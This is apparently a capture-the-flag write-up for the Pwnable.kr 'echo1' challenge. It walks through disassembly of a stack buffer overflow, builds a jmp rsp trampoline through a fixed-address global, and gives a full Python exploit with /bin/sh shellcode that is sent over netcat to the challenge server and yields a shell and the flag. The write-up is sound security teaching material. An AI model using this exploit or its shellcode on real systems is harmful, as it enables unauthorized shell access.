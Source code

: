 ```yaml
---
title: Echo1 - Pwnable.kr
date: 2017-01-19
categories: [Writeups, Pwnable.kr]
tags: ['Buffer overflow']
image:
    path: "/unsorted/pwnablekr.png"

---
```



Once we execute the program, it will ask for our name and then present
a menu from where we can choose one type of echo service. *BOF echo* is
the only one working. If we try to overflow the buffer we get a beautiful
`Segmentation fault (core dumped)` that's a good sign...

```console
$ ./echo1 
hey, what's your name? : werew

- select echo type -
- 1. : BOF echo
- 2. : FSB echo
- 3. : UAF echo
- 4. : exit
> 1
hello werew
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

goodbye werew
Segmentation fault (core dumped)
```


Let's have a closer look at what it's happening here:

```nasm
/ (fcn) sym.echo1 90                                                                                                                                                                 
|           ; var int buff @ rbp-0x20                                                                                                                                                
|           0x00400818      55             push rbp                                                                                                                                  
|           0x00400819      4889e5         mov rbp, rsp                                                                                                                              
|           0x0040081c      4883ec20       sub rsp, 0x20                                                                                                                             
|           0x00400820      488b05711820.  mov rax, qword [rip + 0x201871] ; [0x602098:8]=0x6e692e0062617472 LEA obj.o ; "rtab" @ 0x602098                                           
|           0x00400827      488b5018       mov rdx, qword [rax + 0x18] ; [0x18:8]=0x4006b0 sym._start                                                                                
|           0x0040082b      488b05661820.  mov rax, qword [rip + 0x201866] ; [0x602098:8]=0x6e692e0062617472 LEA obj.o ; "rtab" @ 0x602098                                           
|           0x00400832      4889c7         mov rdi, rax                                                                                                                              
|           0x00400835      ffd2           call rdx                    ; sym.greetings                                                                                               
|           0x00400837      488d45e0       lea rax, [rbp - buff]       ;[2]                                                                                                          
|           0x0040083b      be80000000     mov esi, 0x80                                                                                                                             
|           0x00400840      4889c7         mov rdi, rax                                                                                                                              
|           0x00400843      e84cffffff     call sym.get_input          ;[3]                                                                                                          
|           0x00400848      488d45e0       lea rax, [rbp - buff]       ;[2]                                                                                                          
|           0x0040084c      4889c7         mov rdi, rax                                                                                                                              
|           0x0040084f      e8dcfdffff     call sym.imp.puts           ;[4]                                                                                                          
|           0x00400854      488b053d1820.  mov rax, qword [rip + 0x20183d] ; [0x602098:8]=0x6e692e0062617472 LEA obj.o ; "rtab" @ 0x602098                                           
|           0x0040085b      488b5020       mov rdx, qword [rax + 0x20] ; [0x20:8]=64 ; "@" 0x00000020                                                                                
|           0x0040085f      488b05321820.  mov rax, qword [rip + 0x201832] ; [0x602098:8]=0x6e692e0062617472 LEA obj.o ; "rtab" @ 0x602098                                           
|           0x00400866      4889c7         mov rdi, rax                                                                                                                              
|           0x00400869      ffd2           call rdx                    ; sym.byebye                                                                                                  
|           0x0040086b      b800000000     mov eax, 0                                                                                                                                
|           0x00400870      c9             leave                                                                                                                                     
\           0x00400871      c3             ret
```


When we select the option 1 (echo1) the function echo1 will be called,
this last, after reserving the space on the stack for a buffer 0x20
 bytes big, will:
- Politely say 'hello'
- Read the an input 0x80 big into the buffer (!!!)
- Print the buffer to stdout
- Leave saying 'goodbye'

Bingo! This is it, we can overflow the buffer of the function `echo1` and
change the return address. In this program the stack is executable and 
we have all the space we need to put a shellcode.


There is only one problem: how the hell do we get the address of the shellcode?
As normal ASLR comes to make things more difficult :'(

Even with a nop sled guessing the address would take too much time 
(we are on 64 bits exploiting a service trough a network!).

If we check carefully the parts of the program that are not affected by
ASLR we can determine if there is any fixed-address data over which
we have control. It turns out there is one.

```nasm
|           0x00400936      b8be0b4000     mov eax, str._24s           ; "%24s" @ 0x400bbe                                                                   
|           0x0040093b      488d55e0       lea rdx, [rbp - name]       ;[2]            
|           0x0040093f      4889d6         mov rsi, rdx               
|           0x00400942      4889c7         mov rdi, rax                                                                                                                        
|           0x00400945      b800000000     mov eax, 0                                                                                                                     
|           0x0040094a      e851fdffff     call sym.imp.__isoc99_scanf ;[3]                                                                                                     
|           0x0040094f      488b05421720.  mov rax, qword [rip + 0x201742] ; [0x602098:8]=0x6e692e0062617472 LEA obj.o ; "rtab" @ 0x602098                                      
|           0x00400956      488d55e0       lea rdx, [rbp - name]       ;[2]                                                                                                    
|           0x0040095a      488b0a         mov rcx, qword [rdx]                 
|           0x0040095d      488908         mov qword [rax], rcx       
|           0x00400960      488b4a08       mov rcx, qword [rdx + 8]    ; [0x8:8]=0 LEA rdx ; rdx                                                                                     
|           0x00400964      48894808       mov qword [rax + 8], rcx                                                                                                                  
|           0x00400968      488b5210       mov rdx, qword [rdx + 0x10] ; [0x10:8]=0x1003e0002                                                                                        
|           0x0040096c      48895010       mov qword [rax + 0x10], rdx                                                                                                               
|           0x00400970      488d45e0       lea rax, [rbp - name]       ;[2]                                                                                                          
|           0x00400974      8b00           mov eax, dword [rax]                                                                                                                      
|           0x00400976      890524172000   mov dword [rip + 0x201724], eax ; [0x6020a0:4]=0x70726574 LEA obj.id ; "terp" @ 0x6020a0                                                  
|           0x0040097c      e8effcffff     call sym.imp.getchar        ;[4]                                                        
```


During the execution of the function `main`, the first 4 bytes on our name gets
copied into a global object called `id` at the address `0x6020a0`.
We can use that to set a trampoline to our shellcode, we can jump to the
address pointed by `rsp` and reach our shellcode.
[Here](https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/) there is a good resource about how can we jump into our shellcode.


Let's write the exploit:

```python
jmp = "\xff\xe4"                                    # jmp %rsp
ret_addr = "\xa0\x20\x60\x00\x00\x00\x00\x00"       # obj.id
shellcode = (                                       # From: https://shell-storm.org/shellcode/files/shellcode-603.php
    "\x48\x31\xd2"                                  # xor    %rdx, %rdx
    "\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68"      # mov  $0x68732f6e69622f2f, %rbx
    "\x48\xc1\xeb\x08"                              # shr    $0x8, %rbx
    "\x53"                                          # push   %rbx
    "\x48\x89\xe7"                                  # mov    %rsp, %rdi
    "\x50"                                          # push   %rax
    "\x57"                                          # push   %rdi
    "\x48\x89\xe6"                                  # mov    %rsp, %rsi
    "\xb0\x3b"                                      # mov    $0x3b, %al
    "\x0f\x05" )                                    # syscall


print( 
       jmp + "\x0a" +       # Name
       "1\x0a"      +       # Option
       "A"*0x28     +       # To fill the buffer until the ret addr (0x28=sizebuff+rbp)
       ret_addr     +       # Address of the trampoline
       shellcode            # The shellcode
    );
```


And try it:

```console
$ (python echo1_exploit.py ; cat - ) | nc pwnable.kr 9010
hey, what's your name? : 
- select echo type -
- 1. : BOF echo
- 2. : FSB echo
- 3. : UAF echo
- 4. : exit
> hello �
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA� `
goodbye �
ls
echo1
flag
log
super.pl
cat flag
H4d_****_***_w1th_****_ov3rfl0w
```


